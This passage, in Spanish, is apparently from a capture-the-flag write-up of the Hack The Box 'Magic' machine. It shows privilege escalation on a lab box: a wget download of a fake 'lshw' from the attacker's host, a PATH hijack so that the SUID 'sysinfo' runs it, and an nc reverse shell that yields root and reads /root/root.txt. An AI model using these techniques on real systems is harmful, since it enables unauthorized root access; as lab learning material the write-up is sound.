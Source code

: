 Con `wget` enviamos este archivo a la máquina de Magic a la carpeta `/tmp`

```bash
www-data@ubuntu:/tmp$ wget http://10.10.14.21:80/lshw
wget http://10.10.14.21:80/lshw                                    
--2020-06-04 22:53:48--  http://10.10.14.21/lshw                                                                                       
Connecting to 10.10.14.21:80... connected.                         
HTTP request sent, awaiting response... 200 OK                     
Length: 226 [application/octet-stream]                             
Saving to: 'lshw'                

lshw                100%[===================>]     226  --.-KB/s    in 0.009s  

2020-06-04 22:53:48 (25.1 KB/s) - 'lshw' saved [226/226]
```

Cambiamos los permisos a este archivo y cambiamos el `PATH` en las variables de entorno

```bash
www-data@ubuntu:/tmp$ chmod +x lshw                                
chmod +x lshw                    
www-data@ubuntu:/tmp$ export PATH=/tmp:$PATH                       
export PATH=/tmp:$PATH           
```

Finalmente, creamos una sesión en netcat en modo escucha en el puerto que hayamos establecido en el archivo `lshw` y ejecutamos el comando `sysinfo`. De esta forma, ya obtendremos el flag del root.

```bash
theseus@ubuntu:/tmp/magic$ sysinfo
sysinfo

┌─[root@parrot]─[/home/nicolasmira101/Documents/Hack-the-box/Maquinas/Magic]
└──╼ #nc -nlvp 5555
listening on [any] 5555 ...
connect to [10.10.14.21] from (UNKNOWN) [10.10.10.185] 57314
root@ubuntu:/tmp/magic# whoami
whoami
root
root@ubuntu:/tmp/magic# cat /root/root.txt
cat /root/root.txt
8aacad..........................
```

